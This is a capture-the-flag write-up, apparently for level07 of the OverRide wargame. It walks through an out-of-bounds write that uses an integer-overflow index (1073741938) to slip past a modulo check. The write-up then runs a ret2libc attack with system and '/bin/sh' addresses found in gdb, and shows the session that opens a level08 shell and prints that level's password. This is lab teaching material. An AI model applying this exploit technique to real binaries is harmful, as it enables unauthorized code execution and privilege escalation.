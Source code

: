 # level07

## Header

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level07/level07
```

<hr>

## Solution

From the [disassembled binary](./source.s) and the [source](./source.c) code we can see that program uses some
encryption and the `shell` will be created if we pass a string and a serial number that matches the string.

Through store_number function we can simply access data that out of `buf`'s bounds, including `main`'s return address:
```c
int store_number(char *buf) {
    ...
    num = get_unum();
    index = get_unum();
    if ((index % 3 == 0) || (num >> 0x18 == 0xb7)) {
        // fail
    }
    ((unsigned int *)buf)[index] = num;
    return 0;
}
```

To do that, let's look at the stack:
| Addr (EBP) | Addr (ESP) | Description | Size |
| :-----: | :-----: | :-----: | :-----: | 
| EBP+0x10 | ESP+0x1a8 | char **env | 4 bytes |
| EBP+0xc  | ESP+0x1ac | char **argv | 4 bytes |
| EBP+0x8  | ESP+0x1b0 | int argc | 4 bytes |
| EBP+0x4  | ESP+0x1b4 | return address | 4 bytes |
| EBP+0x0  | ESP+0x1b8 | saved EBP | 4 bytes |
| EBP-0x4  | ESP+0x1bc | saved EDI | 4 bytes |
| EBP-0x8  | ESP+0x1c0 | saved ESI | 4 bytes |
| EBP-0xc  | ESP+0x1c4 | saved EBX | 4 bytes |
| EBP-0x18 | ESP+0x1d0 | stack alignment | 12 bytes |
| EBP-0x1c | ESP+0x1cc | stack canary | 4 bytes |
| EBP-0x30 | ESP+0x1b8 | char cmd[20] | 20 bytes |
| EBP-0x34 | ESP+0x1b4 | ret number | 4 bytes |
| ... | ... | ... | ... |
| EBP-0x1c4 | ESP+0x24 | unsigned int nums[25] | 100 bytes |
| EBP-0x1c8 | ESP+0x20 | ... | ... |
| EBP-0x1cc | ESP+0x1c | argv pointer copy | 4 bytes |
| EBP-0x1d0 | ESP+0x18 | env pointer copy | 4 bytes |
| ... | ... | ... | ... |

So, as we need to overwrite return address through `buf`, the offset should equal to `456` bytes:
```
(gdb) ! $((0x1c4 + 0x4))
bash: 456: command not found
```

This is offset in bytes, but the type of the `nums` array is `unsinged int` which size is `4 bytes` on this system:
```c
...
int main(int ac, char **av, char **env) {
    unsigned int nums[25];
...
```
In this case, we must divide our byte offset to 4: `456 bytes / 4 bytes per uint num = 114th num`.

We're going to perform `ret2libc`, so we need to overwrite return address to `system` and pass `/bin/sh` string.<br>
`114` is the index we need to use to write at the address of `main`'s return. <br>
`115` is the index of the address where return address of `system` will be stored. <br> 
`116` is the index of the address of the first system argument.<br>

From the source code above, we see that index has restriction, it should not be a multiple of `3`:
```c
if ((index % 3 == 0) || (num >> 0x18 == 0xb7)) {
    // error
}

// and 456 % 3 == 0
```

Fortunately, we can use overflow to get rid of this restriction.
Whatever index is passed, the program first calculates offset in bytes to get the address of some element.
```asm
    shl    $0x2,%eax        ; Left shift, equals to res *= 4
```

All we need to get the `modified index` is to get the max value of 32bit unsigned int + 1 (4294967296) add our offset in bytes and divide it by 4:
```
(gdb) ! $(((4294967296 + 456) / 4))
bash: 1073741938: command not found
```

The thing is when `1073741938` will be multiplied by 4, the upper bits will be erased:
```
01000000 00000000 00000000 01110010   = 1073741938
<< 2
00000000 00000000 00000001 11001000   = 456 bytes = 114 ints
```

Great! Now the last part we need - address of `system` and `/bin/sh`:
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) info proc map
    ...
    Start Addr   End Addr       Size     Offset objfile
    ...
    0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
    ...
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh" 
0xf7f897ec
1 pattern found.
```

|   | Addr (hex) | Addr (dec) |
| -----| ----- | ----- |
| system | 0xf7e6aed0 | 4159090384 |
| "/bin/sh" | 0xf7f897ec | 4160264172 |

Exploit:
```
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cd ../level08/
$ ls -la
total 28
dr-xr-x---+ 1 level08 level08   100 Oct 19  2016 .
dr-x--x--x  1 root    root      260 Oct  2  2016 ..
-r--------  1 level08 level08     0 Oct 19  2016 .bash_history
-rw-r--r--  1 level08 level08   220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root        7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level08 level08  3533 Sep 10  2016 .bashrc
-rw-r-xr--+ 1 level08 level08    41 Oct 19  2016 .pass
-rw-r--r--  1 level08 level08   675 Sep 10  2016 .profile
-r--------  1 level08 level08  2235 Oct 19  2016 .viminfo
drwxrwx---+ 1 level09 users      60 Oct 19  2016 backups
-rwsr-s---+ 1 level09 users   12975 Oct 19  2016 level08
$ cat .pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

## References
- [bin to dec](https://www.rapidtables.com/convert/number/binary-to-decimal.html)
